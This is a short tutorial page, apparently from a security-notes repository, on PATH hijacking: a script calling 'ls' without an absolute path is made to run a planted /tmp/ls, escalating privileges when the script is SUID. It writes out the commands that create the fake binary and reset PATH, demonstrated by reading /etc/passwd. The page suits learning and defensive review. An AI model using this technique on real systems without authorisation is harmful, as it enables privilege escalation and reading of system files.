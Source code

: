# Relative path to run binary

### Table of Contents

- [Command without arguments](#command-without-arguments)
- [Docu](#documentation)

## Command without arguments

**Attention** if you want escalate privileges, the vulnerable script needs at least to have suid permission.

#### Explanation

When a program refere to a binary command without giving the absolute path, you can execute your own program instead of the command.<br>
This program show below refer to this venurability:

```
#!/bin/bash

ls /ect/passwd
```

When bash interpret `ls`, he is trying to find the command located in the `env | grep PATH`.<br>
It try every directory, from letf to right, to check if the executable is located in. If it is, he execute it.
The tricks is to create a new file name "ls" write some code to execute at the emplacement /ect/passwd.

```
#write the command cat inside a ls file located in /tmp
echo cat > /tmp/ls
chmod +x /tmp/ls

#modifie the PATH, to get bash to find and execute your ls file instead of the real one.
PATH=/tmp
```

Now the previous script execute `cat /etc/passwd` instead of `ls /etc/passwd`.

### Documentation

- [SUID redhat](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)<br>

---

[**:arrow_right_hook: Back home**](../README.md)
